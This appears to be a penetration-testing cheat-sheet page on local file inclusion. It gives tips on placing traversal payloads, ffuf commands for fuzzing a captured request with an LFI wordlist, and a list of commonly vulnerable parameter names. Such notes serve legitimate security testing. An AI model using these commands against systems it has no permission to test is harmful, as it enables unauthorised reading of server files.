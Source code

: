 !!! alert "note"
	Try to exploit 1st by replacing the expected value, then by appending your payload after the expected value. If you see a path `/var/www/images/5.jpg` we may need to insert our payload not at the root, but instead of 5.jpg - the application may be expecting the preceding path to exist in the request. 


**List of payloads**
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion

**ffuf**
- Copy request to file via burp
```Python
ffuf -request r -request-proto http -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
```
**Filter by wordcount**
```Python
ffuf -request r -request-proto http -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fw 19,20
```

**List of most common LFI parameters**
```bash
?cat={payload}
?dir={payload]
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload]
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```
